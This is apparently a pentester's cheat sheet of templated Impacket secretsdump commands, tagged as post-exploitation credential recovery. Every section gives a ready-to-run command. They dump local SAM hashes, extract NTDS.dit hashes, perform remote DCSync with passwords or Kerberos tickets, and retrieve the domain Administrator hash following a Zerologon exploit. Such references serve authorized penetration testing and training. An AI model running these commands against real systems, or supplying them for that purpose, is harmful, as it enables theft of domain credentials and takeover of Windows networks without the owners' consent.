 # secretsdump (imp)

% impacket-secrets, windows, smb, 445

## dump with account
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain>/<user>:<password>'@<ip>
```

## dump with kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k -k -no-pass -dc-ip <dc_ip> -no-pass -k <target_name>
```

## extract hash from sam dump files
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## extract hash from ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<ip>
```

## remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> '<domain>/<user>:<password>'@<ip>
```

## remote dcsync (ptt)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -k -no-pass -just-dc -outputfile <file-prefix>  -dc-ip <dc_ip> '<domain>/<user>'@<dc_name>
```